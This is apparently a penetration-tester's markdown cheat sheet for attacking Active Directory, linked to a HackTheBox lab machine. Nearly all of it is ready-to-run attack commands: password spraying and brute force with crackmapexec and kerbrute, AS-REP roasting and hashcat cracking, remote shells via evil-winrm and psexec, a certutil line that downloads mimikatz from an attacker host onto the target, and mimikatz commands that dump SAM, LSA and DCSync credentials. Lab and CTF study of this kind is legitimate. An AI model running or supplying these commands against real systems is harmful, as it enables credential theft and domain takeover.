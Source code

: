 |   |   |
|---|---|
|Scan for password reuse (domain)|`crackmapexec smb $TARGET -u $USERNAME_LIST -p $PASSWORD -d $DOMAIN`|
|Scan for password reuse (local administrator, hash)|`crackmapexec smb $TARGET_RANGE -u administrator -H $NT_HASH --local-auth`|
|Brute force password|`crackmapexec smb $TARGET -u $USERNAME_LIST -p $PASSWORD_LIST`<br>`kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -password $PASSWORD -domain $DOMAIN -dc-ip $DC_IP`|
|List users|`crackmapexec smb $TARGET -u $USERNAME -p $PASSWORD --users`|

Used in: [Infiltrator](/htb/infiltrator.md)

### 9.1. [AS-REP roasting](/notes/attacking-active-directory.md#1-as-rep-roasting)

|   |   |
|---|---|
|Install [kerbrute](https://github.com/TarlogicSecurity/kerbrute)|`pipx install kerbrute`|
|Find users with preauthentication disabled|`~/.local/bin/kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain $DOMAIN -dc-ip $DC_IP`|
|Use GetNPUsers.py to get password hashes|`impacket-GetNPUsers $DOMAIN/$USERNAME -no-pass -dc-ip $DC_IP`|
|Use hashcat to crack the hashes|`hashcat -m 18200 $HASH_FILE /usr/share/wordlists/rockyou.txt`|
|Connec to target|`evil-winrm -i $TARGET -u $USERNAME -p $PASSWORD`<br>`impacket-psexec [$DOMAIN/]$USERNAME:$PASSWORD@$TARGET [$COMMAND]`|

Used in: [Infiltrator](/htb/infiltrator.md)

### 9.2. [Password dumping](/notes/attacking-active-directory.md#2-cached-credential-storage-and-retrieval)

#### 9.2.1. mimikatz.exe

|   |   |
|---|---|
|Prepare file on Kali|`cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html`|
|Download on target|`certutil.exe -urlcache -f -split http://$KALI/mimikatz.exe %TEMP%\mimikatz.exe`|
|`privilege::debug`|Requests the debug privilege `SeDebugPrivilege`; required to debug and adjust the memory of a process owned by another account|
|`token::elevate`|Impersonates a SYSTEM token (default) or domain admin token (using `/domainadmin`)|
|`lsadump::sam`|Dumps the local Security Account Manager (SAM) NT hashes; operate directly on the target system, or offline with registry hives backups (for SAM and SYSTEM)|
|`lsadump::lsa /patch`|Extracts hashes from memory by asking the LSA server; `/patch` or `/inject` takes place on the fly|
|`sekurlsa::logonpasswords`|Lists all available provider credentials; usually shows recently logged on user and computer credentials|
|`vault::cred /patch`|Enumerates vault credentials (Scheduled Tasks)|
|`lsadump::dcsync /user:domain\krbtgt /domain:$DOMAIN`|Ask a DC to synchronize an object (e.g. `krbtgt`)|

More: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md>
